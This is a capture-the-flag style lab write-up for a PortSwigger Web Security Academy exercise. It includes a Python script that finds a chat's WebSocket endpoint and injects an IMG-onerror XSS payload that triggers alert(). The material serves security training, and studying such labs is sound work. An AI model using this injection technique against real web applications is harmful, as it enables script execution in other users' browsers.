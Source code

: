 ```yaml
---
title: Manipulating WebSocket messages to exploit vulnerabilities
tags:
  - web-app
  - websocket
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities/">
1. Manipulating WebSocket messages to exploit vulnerabilities</a>

This lab demonstrates exploiting a XSS (cross site scripting) vulnerability in a
chat box implemented with WebSockets. Using Python's BeautifulSoup and
websockets libraries, we're able to extract the WebSockets endpoint from this
site's HTML, initiate a new connection, and inject IMG tags to attempt to load
an image from the src "/". Obviously, this will fail and, onerror, we'll execute
a script to trigger the alert() function.

Solution:

```python
# usage:
# python3 1.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import json
from argparse import ArgumentParser

import requests
from bs4 import BeautifulSoup
from websockets.sync.client import connect

http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def solve(self) -> None:
        self.s = requests.Session()
        r = self.s.get(f"{self.url}/chat")
        ws_url = (
            BeautifulSoup(r.content, "html.parser").find(id="chatForm").get("action")
        )

        with connect(ws_url) as ws:
            message = {
                "message": "<IMG SRC=/ onerror='alert(String.fromCharCode(88,83,83))'></IMG>"
            }
            ws.send(json.dumps(message))


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
